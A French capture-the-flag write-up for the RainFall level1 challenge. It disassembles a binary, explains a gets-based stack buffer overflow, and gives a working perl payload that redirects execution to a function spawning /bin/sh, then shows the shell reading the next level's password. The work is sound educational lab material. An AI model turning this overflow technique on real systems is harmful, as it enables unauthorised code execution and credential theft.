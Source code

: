 ﻿Comme precedemment, je vais desassembler le programme pour voir ce qu'il fait.

```bash
level1@RainFall:~$ objdump -d ./level1
(...)
08048444 <run>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       a1 c0 97 04 08          mov    0x80497c0,%eax
 804844f:       89 c2                   mov    %eax,%edx
 8048451:       b8 70 85 04 08          mov    $0x8048570,%eax
 8048456:       89 54 24 0c             mov    %edx,0xc(%esp)
 804845a:       c7 44 24 08 13 00 00    movl   $0x13,0x8(%esp)
 8048461:       00
 8048462:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048469:       00
 804846a:       89 04 24                mov    %eax,(%esp)
 804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt>
 804847e:       c9                      leave
 804847f:       c3                      ret

08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp
 8048486:       83 ec 50                sub    $0x50,%esp
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax
 804848d:       89 04 24                mov    %eax,(%esp)
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 8048495:       c9                      leave
(...)
```

Je vois que la fonction main appelle `gets` pour lire une chaine de caracteres et rien d'autre,  
alors qu'un peu plus haut je vois la fonction `run` qui appelle `system` avec `/bin/sh` en argument.

Je me mets donc a chercher un moyen d'appeler `run` en passant par `main`. Et effectivement, `gets` est une fonction qui peut etre exploitee pour faire du buffer overflow.
La fonction `gets` qui ne verifie pas la taille du buffer, qui ici a une taille de 76.
Et du coup je peux ecrire une addresse differente juste apres le buffer pour ecraser l'adresse de retour de `main` et la faire pointer sur `run`.

[Source buffer overflow en C](https://owasp.org/www-community/attacks/Buffer_overflow_attack)

```bash
level1@RainFall:~$ perl -e 'print "A"x76 . "\x44\x84\x04\x08"' > /tmp/pl1
level1@RainFall:~$ cat /tmp/pl1 - | ./level1

Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped)
```

A noter que `\x44\x84\x04\x08` est l'adresse de `run` en little endian. (globalement l'addresse est a l'envers dans la memoire)